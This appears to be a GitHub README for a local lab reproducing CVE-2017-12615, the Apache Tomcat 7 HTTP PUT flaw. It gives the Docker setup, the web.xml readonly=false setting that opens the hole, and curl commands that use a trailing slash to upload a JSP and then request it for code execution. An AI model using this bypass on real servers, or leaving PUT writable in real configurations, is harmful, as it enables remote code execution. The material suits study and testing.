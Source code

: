 # CVE-2017-12615

## Description

When running Apache Tomcat 7.0.0 to 7.0.79 on Windows with HTTP PUTs enabled (e.g. via setting the readonly initialisation parameter of the Default to false) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server.

## Setup

1. Build and run the docker container, the files are present in [vulntomcat](../vulntomcat/).

    ```bash
    docker build . -t vulntomcat
    docker run -p 8080:8080 --name vulntomcatcontainer vulntomcat
    ```

    The important thing is to set the readonly parameter to false in the `web.xml` file.

    ```xml
    <init-param>
        <param-name>readonly</param-name>
         <param-value>false</param-value>
    </init-param>
    ```

## Exploit

1. First we try PUTing a JSP file to the server.

    ```bash
    curl -v -X PUT http://localhost:8080/payload.jsp --data-binary @payload.jsp
    ```

    This returns a 404 error, however if we add a trailing slash to the URL, the file is uploaded successfully.

    ```bash
    curl -v -X PUT http://localhost:8080/payload.jsp/ --data-binary @payload.jsp
    ```

2. Now we can access the file by visiting `http://localhost:8080/payload.jsp`.

    ```bash
    curl http://localhost:8080/payload.jsp
    ```

    This will execute the code in the JSP file.
